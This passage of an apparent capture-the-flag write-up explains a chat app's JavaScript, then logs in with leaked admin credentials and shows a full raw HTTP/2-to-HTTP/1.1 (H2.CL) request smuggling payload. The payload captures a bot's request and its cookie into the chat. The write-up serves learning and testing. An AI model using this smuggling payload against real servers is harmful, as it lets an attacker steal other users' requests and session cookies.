				urlParams.has("msg") && urlParams.get("msg") === messageText;

			const messageData = {
				message: messageText,
				sender: isBot ? "Bot" : activeUser, // Set the sender as "Bot"
			};
			userMessages[activeUser].push(messageData);
			appendMessage(messageText);
			writeMessageInput.value = "";
			scrollToBottom();
			console.log({ activeUser });
			fetch("/send_message", {
				method: "POST",
				headers: {
					"Content-Type": "application/x-www-form-urlencoded",
				},
				body: "data="+messageText
			})
				.then((response) => {
					if (!response.ok) {
						throw new Error("Network response was not ok");
					}
					console.log("Message sent successfully");
				})
				.catch((error) => {
					console.error("Error sending message:", error);
					// Handle error (e.g., display error message to the user)
				});
		}
	}

	// Event listeners
	discussions.forEach(function (discussion) {
		discussion.addEventListener("click", function () {
			const userName = this.dataset.name;
			console.log({ userName });
			displayMessages(userName.toUpperCase());
		});
	});

	const sendButton = document.querySelector(".send");
	sendButton.addEventListener("click", sendMessage);
	writeMessageInput.addEventListener("keydown", function (event) {
		if (event.key === "Enter") {
			event.preventDefault();
			sendMessage();
		}
	});

	// Initial actions
	fetchMessages();
});

// Function to scroll to the bottom of the messages chat
function scrollToBottom() {
	const messagesChat = document.getElementById("messages-chat");
	messagesChat.scrollTop = messagesChat.scrollHeight;
}
```

This **JavaScript** code is used to run a simple chat system between **Jack and Oliver**. When the page opens, it gets their previous messages from the server and shows Jack’s chat first. The user can switch between chats, type a message, and send it by clicking the send button or pressing Enter. New messages are displayed in the chat and also sent to the server. The code also updates the name at the top of the chat and automatically scrolls down so the newest message is visible.


---

## Login

From `gobuster` on port 80, we also found the `/access` endpoint. I open it and find a login page. So, I use the credentials we discovered from `/admin-creds`.

and we got access to `/messages`


---

## Inspect Requests 




We can see that the web application uses **HTTP/2**, so let's check for request smuggling. First, I switch the request in Burp from HTTP/2 to HTTP/1.1.

The request also works over HTTP/1.1. This only confirms that the front end accepts both versions; it doesn't prove that the proxy downgrades HTTP/2 to HTTP/1.1 on the backend or that request smuggling is possible.

---

## HTTP/2 Request Smuggling

We set the outer `Content-Length` to `0` and add another request to the HTTP/2 body. This tests for **H2.CL request smuggling**: the front end uses HTTP/2 framing, but the backend uses the forwarded `Content-Length` after a downgrade to HTTP/1.1. 

Don't forget to disable **Update Content-Length** in Burp's settings. We send the initial request to `/` with `Content-Length: 0`, then append an incomplete `/send_message` request ending in `data=`. If the backend trusts the outer length, it treats the appended bytes as a new request. The inner `Content-Length: 730` makes it wait for more body data, so a later request on the same backend connection can be captured as part of the message. This value worked in my attempt it isn't necessarily the victim request's exact length. Too large a value may leave the backend waiting until it times out.

**Request:**
```
POST / HTTP/2
Host: 10.48.187.150:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.avAWxA.4kWD24e_wn5TdzLMc0ImKgUAiSk
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36
Content-Length: 0

POST /send_message HTTP/1.1
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.avAWxA.4kWD24e_wn5TdzLMc0ImKgUAiSk
Host: 10.48.187.150:80
Content-Length: 730
Content-type: application/x-www-form-urlencoded

data=
```

**We have to wait for the bot to make a request**

Then open `/getMessages`, and we find the captured bot request stored in the chat. Its `Cookie` header contains the flag:

*DONE!!!*

---
